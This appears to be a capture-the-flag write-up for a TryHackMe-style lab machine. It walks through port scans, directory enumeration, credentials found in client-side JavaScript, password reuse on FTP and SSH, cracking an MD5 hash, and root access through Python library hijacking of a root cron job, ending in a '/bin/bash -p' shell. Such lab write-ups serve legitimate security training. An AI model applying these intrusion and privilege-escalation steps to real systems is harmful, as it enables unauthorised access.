







# Enumeration

## NMAP

```
$ nmap 10.10.141.83     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-05 09:48 EDT
Nmap scan report for 10.10.141.83
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.88 seconds
```

```
$ sudo nmap -sS -p- 10.10.141.83 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-05 09:50 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 35.73% done; ETC: 09:51 (0:00:20 remaining)
Debugging Increased to 1.
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 36.94% done; ETC: 09:51 (0:00:19 remaining)
Current sending rates: 2135.60 packets / s, 93724.87 bytes / s.
Increased max_successful_tryno for 10.10.141.83 to 2 (packet drop)
Overall sending rates: 1734.35 packets / s, 76311.30 bytes / s.
Nmap scan report for 10.10.141.83
Host is up (0.067s latency).
Scanned at 2023-10-05 09:50:44 EDT for 38s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown
Final times for host: srtt: 66760 rttvar: 568  to: 100000

Read from /usr/bin/../share/nmap: nmap-protocols nmap-services.
Nmap done: 1 IP address (1 host up) scanned in 38.29 seconds
```

```
nmap -sCV -p 22,80,37370 10.10.141.83
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-05 09:53 EDT
Nmap scan report for 10.10.141.83
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.35 seconds
```

**Results**
* ssh server
* http server
* ftp server

## FTP

**Cannot** loggin anonymously

```
$ ftp 10.10.141.83 37370
Connected to 10.10.141.83.
220 (vsFTPd 3.0.3)
Name (10.10.141.83:kali): anonymous
331 Please specify the password.
Password: 

530 Login incorrect.
ftp: Login failed
ftp> 
ftp> 
ftp> exit
221 Goodbye.
```

## Website enumeration
### Manual exploration

We find that /pricing is a directory. It contains a text files inside called **note.txt**


Apperantly J has been leaving some notes across the website. The is also another user with the initials RP

## Directory enumeration

```
$ gobuster dir -u http://10.10.141.83/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.83/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1163]
/gallery              (Status: 301) [Size: 314] [--> http://10.10.141.83/gallery/]                                                                                
/static               (Status: 301) [Size: 313] [--> http://10.10.141.83/static/]
/pricing              (Status: 301) [Size: 314] [--> http://10.10.141.83/pricing/]                                                                                
/.html                (Status: 403) [Size: 277]
Progress: 175328 / 175330 (100.00%)
===============================================================
Finished
===============================================================
```

```
$ gobuster dir -u http://10.10.141.83/static/ -w /usr/share/wordlists/dirb/common.txt -x txt,html,png
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.83/static/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.hta.png             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.png        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htpasswd.png        (Status: 403) [Size: 277]
/00                   (Status: 200) [Size: 127]
/1                    (Status: 200) [Size: 2473315]
/11                   (Status: 200) [Size: 627909]
/10                   (Status: 200) [Size: 2275927]
/12                   (Status: 200) [Size: 2203486]
/15                   (Status: 200) [Size: 3477315]
/13                   (Status: 200) [Size: 3673497]
/14                   (Status: 200) [Size: 3838999]
/3                    (Status: 200) [Size: 421858]
/2                    (Status: 200) [Size: 3627113]
/5                    (Status: 200) [Size: 1426557]
/6                    (Status: 200) [Size: 2115495]
/9                    (Status: 200) [Size: 1190575]
/7                    (Status: 200) [Size: 5217844]
/8                    (Status: 200) [Size: 7919631]
/4                    (Status: 200) [Size: 7389635]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished

```


### Results from static.

static/00 contains another note:



We discover that there is login page under **/dev1243224123123**


## dev login

The login is performed in the client, and nothing is sent over the network. Since it is done in the client's terminal/browser we can see the password and username in the JS files



### Note achieved from dev login



The credentials are probably being reused on the FTP Server or on the SSH server.

The password was indeed reused in the FTP Server, however the ssh server did not reuse the same password

## Files on the FTP Server.

The password was indeed reused in the FTP Server

```
$ ftp 10.10.141.83 37370                    
Connected to 10.10.141.83.
220 (vsFTPd 3.0.3)
Name (10.10.141.83:kali): siemDev
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48083|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
```

We can load these files into Wireshark and look at what was transmited in the network.

### pcapng Files

We can see tcp and ftp packets being transmited. We find a directory listing very quickly.



We can also find a post completed with http in clear text.



## SSH


Login to ssh with these credentials and get the user flag

```
$ ssh valleyDev@10.10.141.83
valleyDev@10.10.141.83's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ ls
user.txt
```

# Privledge Escalation

In the croontab we can see that there is python3 script that runs as root and that encrypts images with base64 encoding.

```
$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

We cannot change this file but it is using a version of python located under /usr/bin/python3.

```
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```
### ValeyAutheticator

```
valleyDev@valley:/home$ ls
siemDev  valley  valleyAuthenticator  valleyDev
```

```
valleyDev@valley:/home$ python3 -m http.server 1234
```

```
$ wget http://10.10.141.83:1234/valleyAuthenticator
--2023-10-05 12:12:55--  http://10.10.141.83:1234/valleyAuthenticator
Connecting to 10.10.141.83:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 749128 (732K) [application/octet-stream]
Saving to: ‘valleyAuthenticator’

valleyAuthenticator  100%[===================>] 731.57K  1.28MB/s    in 0.6s    

2023-10-05 12:12:56 (1.28 MB/s) - ‘valleyAuthenticator’ saved [749128/749128]
```
### Reverse 
Looking at the strings of this file

```
$  file valleyAuthenticator             
valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
$ strings valleyAuthenticator > string.txt
```

When looking for a password string a found a passwd and something that looks a lot like an md5 hash.        

Trying to break this with crackstation we get the following password.



Login with this password
```
$ ssh valley@10.10.141.83   
valley@10.10.141.83's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

valley@valley:~$ ls
Desktop    Downloads  Music     Public     Videos
Documents  exp_dir    Pictures  Templates
```

## Perform some Python library higjacking and change the base64 library



Wait for the python script to execute then we should have sudo priveldges of bash.

```
$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
root.txt  snap
bash-5.0# cat root.txt 
THM{-------------}
```